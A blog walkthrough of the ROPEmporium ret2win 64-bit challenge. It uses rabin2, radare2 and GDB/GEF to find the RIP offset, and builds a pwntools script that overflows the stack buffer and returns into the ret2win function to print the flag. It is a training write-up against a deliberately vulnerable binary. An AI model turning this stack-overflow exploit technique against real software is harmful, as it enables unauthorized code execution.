







ROPEmporium: 0-Ret2Win (64-bit)
Doing a series on ROP and ROPEmporium, starting out with a simple ret2win
So I had an idea for a long time, that I really should document the commands and programs that I use for pwning especially ROP based exploits. But since I lately ran through the ROPEmporium Challenges I thought, might as well make it a series on the blog. Now I assume that you as a reader already have some experience in creating buffer overflow exploits where you jump to the stack and execute shellcode.
What is Return Oriented Programming (ROP)?
Return-oriented programming ( ROP ) is a computer security exploit technique that allows an attacker to execute code in the presence of security defenses such as executable space protection and code signing.
In this technique, an attacker gains control of the call stack to hijack program control flow and then executes carefully chosen machine instruction sequences that are already present in the machine’s memory, called “gadgets”
Source: https://en.wikipedia.org/wiki/Return-oriented_programming
Setup
First of all the setup that I’ll be using might not be what you have, either way here’s the list that I’m going to be working with:
- IDE: Atom
- Python2.7 with pwntools
- radare2 disassembler
- GDB with GDB Enhanced Features (GEF)
So first of all lets start with downloading the binary that we are supposed to exploit
root@linux:~/ret2win# wget https://ropemporium.com/binary/ret2win.zip
root@linux:~/ret2win# unzip ret2win.zip
root@linux:~/ret2win# ls
flag.txt ret2win ret2win.zip
So that’s done, Lets start by analyzing the ret2win binary
root@linux:~/ret2win# file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a871295b6234edb261710bcc73a8c03e3c0f601d, not stripped
So two things stand out, ELF 64-bit and not stripped. Now we should already anticipated the ELK 64-bit since we downloaded the 64-bit version of ret2win, the not stripped though means that we have the symbols available to us. which will make reversing the binary a bit easier.
Radare2 Reversing
In the challenge description, they stated that there was a function in the binary called ret2win, which basically means “return here to win(print the flag)”. Before we dive into radare2 its good practice to look what security the binary has been compiled with.
root@Valkyrie:~/Documents/courses/ropemporium/0-ret2win# rabin2 -I ret2win
arch x86
baddr 0x400000
binsz 7071
bintype elf
bits 64
canary false
class ELF64
compiler GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic false
relocs true
relro partial
rpath NONE
sanitiz false
static false
stripped false
subsys linux
va true
Just to confirm that the nx bit is true, which means that we cannot place executable shellcode on the stack and that points to a ROP based exploit. Now lets fire up radare2 in order to analyze the assembly and symbols looking for that ret2win function.

The two command are fs symbols in order to select the symbols space to list all flags, and f | grep ret2win So that we can search the symbols for the address to ret2win function. Analyzing the function ret2win we can see that it calls the string “/bin/cat flag.txt” using system, that will print us the flag.

Going for the pwn!
Now lets start by looking at creating the exploit itself, pwntools comes with an awesome function where you can easily create a template, or stubcode for CTF-exploits.
root@Valkyrie:~/Documents/courses/ropemporium/0-ret2win# pwn template --host 127.0.0.1 --port 31337 ret2win --quiet
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
exe = context.binary = ELF('ret2win')
host = args.HOST or '127.0.0.1'
port = int(args.PORT or 31337)
def local(argv=[], *a, **kw):
'''Execute the target binary locally'''
if args.GDB:
return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
else:
return process([exe.path] + argv, *a, **kw)
def remote(argv=[], *a, **kw):
'''Connect to the process on the remote host'''
io = connect(host, port)
if args.GDB:
gdb.attach(io, gdbscript=gdbscript)
return io
def start(argv=[], *a, **kw):
'''Start the exploit against the target.'''
if args.LOCAL:
return local(argv, *a, **kw)
else:
return remote(argv, *a, **kw)
gdbscript = '''
break *0x{exe.symbols.main:x}
continue
'''.format(**locals())
# -- Exploit goes here --
io = start()
io.interactive()
When calling the python code with the following arguments
- LOCAL - Exploit the local binary
- DEBUG - Exploit with Debug input/output
- GDB - Run the exploit together with a GDB session attached
Running the exploit without any arguments simply try to exploit the IP and port stated, but since ROPEmporium is only local binaries we wont bother trying something remote.
This will ensure some reproducibility every time we change something in the exploit code and exploit the service.
RIP
Now because this is a 64-bit program contrary to a 32-bit where we want to control the EIP register, this time controlling RIP is the key to inject out own code.
In order to determine the amount of junk to overwrite the RIP, we have to open it up in GDB and create a unique pattern.

Now run the program and when you are required to input data, paste the unique string, which if the string is long enough, will crash the execution of the binary.

The important register is the stack pointer $rsp. Now still GDB and doing a pattern search for the string in $rsp GEF will display the offset at which we control the register.

The other notable thing from the GDB output is that we are required to input data after “> “. Both of these two pieces of data will be used in the exploit.
# -- Exploit goes here --
junk = 'A'*40+'BBBBBBBB' #junk with the offset in order to overwrite RIP
payload = junk #Payload that will be sent to the binary
io = start()
io.recvuntil('> ') #pwn function "Recieve data until symbol"
io.sendline(payload) #send object ending with a carriage return
io.interactive()
This code will consistently crash the ret2win binary and running it with ./exploit.py LOCAL GDB will attach a GDB session showing that $RSP is overwritten with 8*B.

Ret2Win
Having the program crash is all fun and games, but we want that flag!
now since ROP is exploiting using library or binary “gadgets” we have to replace those 8*B with a valid address to a function. Since we got that hint to use the ret2win (0x00400811) function from ROPEmporium, lets do that.
# -- Exploit goes here --
junk = 'A'*40 #junk with the offset in order to overwrite RIP
ret2win = p64(0x00400811) #gadget which executes /bin/cat flag.txt
payload = junk #Payload that will be sent to the binary
payload += ret2win
io = start()
io.recvuntil('> ') #pwn function "Recieve data until symbol"
io.sendline(payload) #send object ending with a carriage return
io.interactive()
Running the exploit locally again results in a flag being printed to us!

But wait… There’s more!!!
Yeah we got the flag. but to do something cool with pwntools since we are already using the python lib. Since the binary was not stripped (important), and pwntools automatically loads the binary into its context. Pwntools also loads the symbols, and their corresponding addresses which we can call in the exploit script. in other words we don’t have to mess about with static addresses but can call the ret2win using pwntools symbols.
#Blog: https://blog.securitybits.io/2019/08/08/ropemporium-0-ret2win/
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
exe = context.binary = ELF('ret2win')
host = args.HOST or '127.0.0.1'
port = int(args.PORT or 31337)
def local(argv=[], *a, **kw):
'''Execute the target binary locally'''
if args.GDB:
return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
else:
return process([exe.path] + argv, *a, **kw)
def remote(argv=[], *a, **kw):
'''Connect to the process on the remote host'''
io = connect(host, port)
if args.GDB:
gdb.attach(io, gdbscript=gdbscript)
return io
def start(argv=[], *a, **kw):
'''Start the exploit against the target.'''
if args.LOCAL:
return local(argv, *a, **kw)
else:
return remote(argv, *a, **kw)
gdbscript = '''
break *0x{exe.symbols.main:x}
continue
'''.format(**locals())
junk = 'A'*40
ret2win = p64(exe.symbols.ret2win)
payload = ""
payload += junk
payload += ret2win
io = start()
io.recvuntil('> ')
io.sendline(payload)
io.recvuntil(':')
log.success('Flag: ' + io.recv(1024))
Github-Repo: https://github.com/Securitybits-io/ROPEmporium